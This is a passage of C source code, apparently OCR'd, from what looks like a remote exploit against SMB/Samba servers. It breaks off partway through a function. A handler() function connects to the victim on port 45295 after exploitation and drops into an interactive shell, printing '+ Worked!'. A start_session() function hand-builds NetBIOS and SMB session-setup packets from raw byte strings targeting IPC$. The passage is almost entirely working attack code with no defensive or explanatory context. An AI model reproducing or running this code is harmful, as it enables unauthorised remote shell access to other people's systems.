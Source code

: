     void handler()
    {
            int sock = 0;
            int i = 0;
            OWNED = 1;

            for (i = 0; i < 100; i++)
                    if (childs[i] != 0xffffffff) waitpid(childs[i], NULL, 0);

            if ((sock = socket(AF_INET, SOCK_STREAM, 6)) < 0) {
                    close(sock);
                    exit(1);
            }

            if(Connect(sock, (char *)inet_ntoa(addr1.sin_addr), 45295, 2) != -1) {
                    fprintf(stdout, "+ Worked!\n"
                                    "--------------------------------------------------------------\n");
                    shell(sock);
                    close(sock);
            }


    }

    int start_session(int sock)
    {
            char buffer[1000];
            char response[4096];
            char session_data1[]    = "\x00\xff\x00\x00\x00\x00\x20\x02\x00\x01\x00\x00\x00\x00";
            char session_data2[]    = "\x00\x00\x00\x00\x5c\x5c\x69\x70\x63\x24\x25\x6e\x6f\x62\x6f\x64\x79"
                                      "\x00\x00\x00\x00\x00\x00\x00\x49\x50\x43\x24";

            NETBIOS_HEADER  *netbiosheader;
            SMB_HEADER      *smbheader;

            memset(buffer, 0x00, sizeof(buffer));

            netbiosheader   = (NETBIOS_HEADER *)buffer;
            smbheader       = (SMB_HEADER *)(buffer + sizeof(NETBIOS_HEADER));

            netbiosheader->type     = 0x00;         /* session message */
            netbiosheader->flags    = 0x00;
            netbiosheader->length   = htons(0x2E);

            smbheader->protocol[0]  = 0xFF;
            smbheader->protocol[1]  = 'S';
            smbheader->protocol[2]  = 'M';
            smbheader->protocol[3]  = 'B';
            smbheader->command      = 0x73;         /* session setup */
            smbheader->flags        = 0x08;         /* caseless pathnames */
            smbheader->flags2       = 0x01;         /* long filenames supported */
            smbheader->pid          = getpid() & 0xFFFF;
            smbheader->uid          = 100;
            smbheader->mid          = 0x01;

            memcpy(buffer + sizeof(NETBIOS_HEADER) + sizeof(SMB_HEADER), session_data1, sizeof(session_data1) - 1);
